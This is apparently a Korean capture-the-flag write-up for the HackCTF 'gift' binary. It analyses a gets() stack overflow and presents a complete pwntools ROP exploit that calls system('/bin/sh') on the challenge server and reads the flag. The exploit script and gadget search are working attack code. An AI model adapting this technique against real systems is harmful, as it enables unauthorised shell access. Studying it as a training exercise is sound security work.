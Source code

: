 # Gift

```c
kimdong@ubuntu  ~/Wargame/200~250  file gift
gift: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=ad5f9a7976dcc093b6aa0cddddcfa4e3a2ad149e, not stripped

kimdong@ubuntu  ~/Wargame/200~250  checksec gift
[*] '/home/kimdong/Wargame/200~250/gift'
   Arch:     i386-32-little
   RELRO:    No RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x8048000)
```
이번 바이너리파일은 32-bit로 NX-bit가 설정되어있다.<br>

```c
kimdong@ubuntu  ~/Wargame/200~250  ./gift
Hey guyssssssssss here you are: 0x8049940 0xf7daed10
aaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaa
```
실행시켜보면, 문자열이 출력되고, 사용자의 입력값을 받는다.<br>

받은 입력값을 출력시켜주고, 다시 사용자의 입력값을 받고 종료된다.<br>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+0h] [ebp-84h]

  alarm(0x3Cu);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  printf("Hey guyssssssssss here you are: %p %p\n", &binsh, &system);
  fgets(&s, 128, stdin);
  printf(&s);
  gets(&s);
  return 0;
}
```
main문은 fgets로 사용자의 입력값을 받고, printf로 출력해준뒤에, 다시 gets로 사용자의 입력값을 받는 형식이다.<br>

그리고 처음에 띄워준 주소는 `system`함수와 `/bin/sh`의 주소이다.<br>

s의 크기는 132Byte이다.<br>

fgets로 받는 크기는 128Byte로 이 함수에서는 `BOF`취약점이 불가해보인다.<br>

하지만, gets에서는 검증을 하지 않으므로, `BOF`취약점을 이용가능할 것으로 보인다.<br>

위에 주어진 binsh_addr은 해당 주소에 `/bin/sh`문자열을 입력하라는 주소지로 보인다.<br>

따라서 `pop ret gadget`을 통해 gets 함수를 이용해 binsh_addr에 `/bin/sh`문자열을 입력하고, ret주소를 `binsh_addr`로 덮어씌워주면 해결가능할것으로 보인다.<br>
```c
✘ kimdong@ubuntu  ~/Wargame/200~250  ./rp-lin-x86 -f gift -i 1 -r 1 |grep "pop"
0x0804866b: pop ebp ; ret  ;  (1 found)
```
`pr gadget`은 `0x0804866b`을 사용하도록 한다.<br>

---

```c
from pwn import *

p = remote("ctf.j0n9hyun.xyz",3018)
context.log_level = "debug"

e = ELF("./gift")
pr = 0x0804866b

gets_addr = e.plt["gets"]

p.recvuntil("Hey guyssssssssss here you are: ")
binsh_addr = int(p.recv(10),16)
system_addr = int(p.recv(10),16)

payload = "A"*3
p.sendline(payload)

payload2 = "A"*136
payload2 += p32(gets_addr)
payload2 += p32(pr)
payload2 += p32(binsh_addr)

payload2 += p32(system_addr)
payload2 += "A"*4
payload2 += p32(binsh_addr)

p.sendline(payload2)
p.sendline("/bin/sh\x00")
p.interactive()

```

```c
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x3b bytes:
    00000000  48 61 63 6b  43 54 46 7b  ed 94 8c eb  9e 98 ea b7  │Hack│CTF{│····│····│
    00000010  b8 5f ec 9e  98 5f eb b0  9b ec 95 98  ec a7 80 3f  │·_··│·_··│····│···?│
    00000020  5f ec 9d b4  ea b2 8c 5f  eb 82 b4 5f  ec 84 a0 eb  │_···│···_│···_│····│
    00000030  ac bc ec 9d  b4 ec 95 bc  21 7d 0a                  │····│····│!}·│
    0000003b
HackCTF{}
```
